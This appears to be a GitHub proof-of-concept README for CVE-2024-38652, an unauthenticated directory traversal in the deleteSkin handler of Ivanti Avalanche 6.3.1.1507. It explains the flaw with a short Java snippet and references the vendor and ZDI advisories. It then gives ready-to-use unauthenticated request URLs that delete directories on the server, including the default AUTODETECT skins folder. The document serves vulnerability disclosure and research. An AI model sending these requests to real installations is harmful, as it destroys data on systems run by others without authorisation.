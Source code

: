 ## CVE-2024-38652
## VULNERABILITY DETAILS	

Ivanti Avalanche deleteSkin Directory Traversal Arbitrary File Deletion Vulnerability

This vulnerability allows remote attackers to delete arbitrary files on affected installations of Ivanti Avalanche. Authentication is not required to exploit this vulnerability.

The specific flaw exists within the deleteSkin method. The issue results from the lack of proper validation of a user-supplied path prior to using it in file operations. An attacker can leverage this vulnerability to delete files in the context of SYSTEM.

## VULNERABILITY
Ivanti Avalanche premise 6.3.1.1507 (tested)

Check C:\Program Files\Wavelink\Avalanche\RemoteControl\lib\RemoteControlServer.jar

com.wavelink.remotecontrol.server.servlets.SkinsServlet
![image](https://github.com/user-attachments/assets/ad7addb2-6768-4bf8-9b0a-a5a6f4889d0b)
![image](https://github.com/user-attachments/assets/1dc56de8-c766-4e49-a7ba-0f872f8c23a4)


## Example code
```
import java.io.File;
class HelloWorld {
    public static void main(String[] args) {
        File file = new File("", "..");
        System.out.println(file.getName());
        file = new File("./web/skins",file.getName());
        System.out.println(file);
    }
}
```
![image](https://github.com/user-attachments/assets/14a033a3-4a5d-4a84-9222-18646cd24f13)
![image](https://github.com/user-attachments/assets/df443415-48ba-46c3-90e7-c5d903774441)


## CVE-2024-38652-Poc

Request /Servlet/Skins?action=deleteSkin&guid=.. endpoint unauthenticated
```
<Host>:1900/Servlet/Skins?action=deleteSkin&guid=..
```
https://github.com/user-attachments/assets/d618690b-2a8a-472f-9d12-2cab703e6eb4



There is also a unauthenticated endpoint ``` <Host>:1900/app/rc?cmd=deleteSkin&guid={{directory}} ``` but have a valid directory check

Delete directory AUTODETECT with: ``` <Host>:1900/app/rc?cmd=deleteSkin&guid=AUTODETECT ```

directory AUTODETECT is default in C:\Program Files\Wavelink\Avalanche\RemoteControl\web\skins

Check file C:\Program Files\Wavelink\Avalanche\RemoteControl\app.war

com.wavelink.remotecontrol.app.servlets.RCServlet

## References:
- https://forums.ivanti.com/s/article/Security-Advisory-Ivanti-Avalanche-6-4-4-CVE-2024-38652-CVE-2024-38653-CVE-2024-36136-CVE-2024-37399-CVE-2024-37373?language=en_US
- https://www.zerodayinitiative.com/advisories/ZDI-24-1149/
